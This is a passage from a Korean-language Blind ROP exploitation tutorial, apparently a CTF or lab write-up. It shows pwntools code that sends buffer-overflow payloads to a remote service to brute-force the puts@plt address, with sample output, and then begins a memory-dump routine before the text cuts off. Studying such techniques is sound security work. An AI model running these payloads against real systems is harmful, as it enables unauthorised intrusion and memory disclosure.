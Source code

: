 #### **Get puts@plt address**

해당 프로그램이 puts, printf 사용한다고 가정한다.  
해당 바이너리에 PIE 설정되지 않았기 때문에 프로세스의 기본시작 주소는 0x400000이고 해당 주소엔 "x7fELF"가 저장되어 있다.  

즉, 다음과 같이 addr의 값을 증가시키면서, 화면에 "\x7fELF"가 출력된다면 해당 주소는 puts의 주소라고 판단할 수 있다.

```python
def find_puts_addr(size,stop_gadget,rdi_ret):
    p = log.progress('Searching for the address of puts@plt')
    for offset in range(0x0,0x1000):
        addr = base + offset

        if addr % 0x100==0:
            log.info('Progressed to 0x%x' % offset)

        payload = 'a'*size
        payload += p64(rdi_ret)
        payload += p64(0x400000)
        payload += p64(addr)
        payload += p64(stop_gadget)

        r = remote(ip,port,level='error')
        r.recvline()
        r.sendline(payload)
        try:
            recv = r.recv(timeout=0.2)
            print(recv)
            if recv.startswith('x7fELF'):
                p.success('Done')
                log.success('find puts@plt addr: 0x%x' % addr)
                return addr
            r.close()
        except Exception as e:
            r.close()
```

```
[+] Searching for the address of puts@plt : Done
[*] Progressed to 0x100
[*] Progressed to 0x200
[*] Progressed to 0x300
[*] Progressed to 0x400
[*] Progressed to 0x500
[+] find puts@plt addr: 0x400555
[+] Puts plt : 0x400555
```

#### **Dump Memory**

앞에서 찾은 puts@plt주소를 이용하여 프로그램 메모리를 덤프가 가능하다. 

```python
def memory_dump(size,stop_gadget,rdi_ret,puts_plt):
    now = base
    end = 0x401000
    dump = ""

    p=log.progress('Memory dump')
    while now < end:
        #print(hex(now))
        if now % 0x100==0:
            log.info('Progressed to 0x%x'%now)

        payload = 'A'*size
        payload += p64(rdi_ret)
        payload += p64(now)
```